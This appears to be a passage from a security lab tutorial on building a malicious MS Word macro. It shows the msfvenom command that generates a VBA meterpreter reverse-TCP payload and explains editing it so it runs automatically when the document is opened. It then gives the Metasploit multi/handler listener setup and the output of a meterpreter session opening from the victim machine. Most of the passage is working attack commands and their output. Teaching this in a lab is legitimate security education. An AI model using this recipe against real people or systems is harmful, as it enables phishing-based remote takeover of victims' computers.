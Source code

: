 Answer the questions below

Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload usingÂ msfvenom. We need to specify theÂ Payload,Â LHOST,Â andÂ LPORT,Â which match what is in the Metasploit framework. Note that we specify the payload asÂ VBAÂ to use it as a macro.

Terminal

```shell-session
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```

The value of theÂ LHOSTÂ in the above terminalÂ is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

**Import to note**Â that one modification needs to be done to make this work.Â  The output will be working on an MS excel sheet. Therefore, change theÂ Workbook_Open()Â toÂ Document_Open()Â to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

Terminal

```shell-session
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

Terminal

```shell-session
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
```
